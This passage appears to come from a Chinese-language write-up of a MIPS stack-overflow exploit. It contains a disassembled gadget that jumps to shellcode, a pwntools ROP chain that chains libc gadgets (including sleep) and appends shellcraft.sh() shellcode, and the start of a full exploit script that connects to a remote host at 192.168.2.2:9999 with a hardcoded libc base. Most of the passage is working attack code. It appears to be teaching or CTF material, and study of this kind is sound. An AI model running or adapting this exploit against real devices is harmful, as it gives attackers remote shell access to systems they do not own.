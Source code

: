 ```bash
--------------------------------------------------------------------------------------------------------------------------------
loc_126440:
.text:00126440 21 C8 A0 00                   move    $t9, $a1													#【$t9 == &shellcode】
.text:00126444 4C 00 84 24                   addiu   $a0, 0x4C  # 'L'
.text:00126448 08 00 20 03                   jr      $t9															#【执行shellcode】
.text:0012644C 21 28 C0 00                   move    $a1, $a2
--------------------------------------------------------------------------------------------------------------------------------
```

```python
loc_A0730 = FullLibcCodeBase + 0xA0730
loc_92838 = FullLibcCodeBase + 0x92838
loc_13A354 = FullLibcCodeBase + 0x13A354
loc_126440 = FullLibcCodeBase + 0x126440
loc_23828 = FullLibcCodeBase + 0x23828
sleep_TruE = FullLibcCodeBase + 0xB2BB0

padding = b"TruE"
shellcode = asm(shellcraft.sh())
payload = b'a'*504											# overflow
payload += b'b'*4										    # $fp								 
payload += p32(loc_A0730)    # $ra  
#----------------------------------------
payload += b'c'*36
payload += p32(sleep_TruE)   # $s0
payload += padding           # $s1
payload += padding           # $s2            
payload += p32(loc_92838)    # $s3
payload += p32(loc_13A354)   # ra  
#----------------------------------------
payload += b'd'*24
payload += padding           # $s0
payload += p32(loc_126440)   # $s1
payload += padding           # $s2
payload += p32(loc_23828)    # $ra
#----------------------------------------
payload += b'd'*28
payload += shellcode
```

完整exp如下：

```python
from pwn import *
context.arch = "mips"
context.endian = 'little'
context.os = "linux"
context.log_level = 'debug'

libc = ELF("./lib/libc.so.6")

#-----------------------------------------------------------
p = remote("192.168.2.2",9999)
FullLibcCodeBase = 0x77E41000
loc_A0730 = FullLibcCodeBase + 0xA0730
loc_92838 = FullLibcCodeBase + 0x92838
loc_13A354 = FullLibcCodeBase + 0x13A354
loc_126440 = FullLibcCodeBase + 0x126440
loc_23828 = FullLibcCodeBase + 0x23828
sleep_TruE = FullLibcCodeBase + 0xB2BB0

```